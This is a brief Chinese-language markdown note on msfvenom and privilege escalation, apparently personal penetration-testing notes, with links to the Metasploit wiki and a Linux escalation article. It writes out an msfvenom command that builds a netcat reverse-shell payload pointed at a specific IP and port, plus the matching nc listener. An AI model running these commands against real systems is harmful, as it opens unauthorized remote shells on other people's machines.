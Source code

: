 > msfvenom payload 提权

> [github](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

> [linx 提权](http://www.freebuf.com/articles/system/176255.html)

ubuntu 安装
--

    apt install postgresql
    
    # 生成 payload
     msfvenom -p cmd/unix/reverse_netcat lhost=118.31.78.77 lport=8888 R     
    
    # 监听
     nc -lvp 8888
     